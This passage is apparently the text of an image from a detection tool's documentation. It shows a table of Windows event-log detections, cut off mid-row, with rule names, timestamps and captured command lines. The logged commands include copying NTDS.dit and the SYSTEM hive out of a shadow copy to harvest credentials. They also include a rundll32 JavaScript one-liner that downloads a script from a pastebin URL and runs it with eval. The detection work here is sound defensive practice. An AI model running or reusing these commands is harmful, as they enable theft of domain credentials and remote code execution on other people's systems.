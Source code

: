     │                     │    │ Utilities                                │                                │                                                    │                                                    │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-19 15:11:27 │ 1  │ ‣ Copying Sensitive Files                │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ "C:\Windows\system32\cmd.exe" /c "copy \\?\GLOBALR │
    │                     │    │ with Credential Data                     │                                │                                                    │ OOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ │
    │                     │    │                                          │                                │                                                    │ NTDS.dit C:\Extract\ntds.dit"                      │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-19 15:11:27 │ 1  │ ‣ Copying Sensitive Files                │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ "C:\Windows\system32\cmd.exe" /c "copy \\?\GLOBALR │
    │                     │    │ with Credential Data                     │                                │                                                    │ OOT\Device\HarddiskVolumeShadowCopy1\Windows\Syste │
    │                     │    │                                          │                                │                                                    │ m32\config\SYSTEM C:\Extract\VSC_SYSTEM_HIVE"      │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-26 07:39:14 │ 1  │ ‣ HH.exe Execution                       │ "MSEDGEWIN10"                  │ C:\Windows\hh.exe                                  │ "C:\Windows\hh.exe" C:\Users\IEUser\Desktop\Fax Re │
    │                     │    │                                          │                                │                                                    │ cord N104F.chm                                     │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-26 07:39:14 │ 1  │ ‣ HTML Help Shell Spawn                  │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ "C:\Windows\System32\cmd.exe" /c copy /Y C:\Window │
    │                     │    │ ‣ Suspicious Rundll32 Activity           │                                │                                                    │ s\system32\rundll32.exe %%TEMP%%\out.exe > nul &&  │
    │                     │    │                                          │                                │                                                    │ %%TEMP%%\out.exe javascript:"\..\mshtml RunHTMLApp │
    │                     │    │                                          │                                │                                                    │ lication ";document.write();h=new%%20ActiveXObject │
    │                     │    │                                          │                                │                                                    │ ("WinHttp.WinHttpRequest.5.1");h.Open("GET","http: │
    │                     │    │                                          │                                │                                                    │ //pastebin.com/raw/y2CjnRtH",false);try{h.Send();b │
    │                     │    │                                          │                                │                                                    │ =h.ResponseText;eval(b);}catch(e){new%%20ActiveXOb │
    │                     │    │                                          │                                │                                                    │ ject("WScript.Shell").Run("cmd /c taskkill /f /im  │